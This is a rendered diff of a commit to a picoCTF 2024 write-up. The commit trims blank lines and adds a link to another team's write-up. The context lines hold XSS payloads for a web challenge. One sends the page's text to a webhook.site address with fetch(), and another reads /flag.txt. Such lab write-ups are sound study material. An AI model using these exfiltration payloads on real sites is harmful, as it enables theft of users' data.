

Before and after one commit to Chw41/My-CTF-Challenges, a Markdown page: picoCTF/2024/picoCTF 2024 writeup.md, the part around the change. GitHub-like rendering.

````diff
--- a/picoCTF/2024/picoCTF 2024 writeup.md
+++ b/picoCTF/2024/picoCTF 2024 writeup.md
@@ -688,11 +688,8 @@ http://rhea.picoctf.net:52830/remoteCraft?recipe={"recipe":[["Fire","Water"]],"x
 /remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"fetch('https://webhook.site/89a33e4d-1e15-48e6-bdb8-0df74726398b', { method: 'POST', body: JSON.stringify({ flag: document.querySelector('body').innerText }) })"}
 
 /remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"encodeURIComponent("fetch('/flag.txt').then(response => response.text()).then(data => alert(data));")"}
-
-
-
 ```
-
+https://github.com/satoki/ctf_writeups/tree/master/picoCTF_2024/elements?ref=blog.qz.sg
 
 
 # Cryptography (5)
````
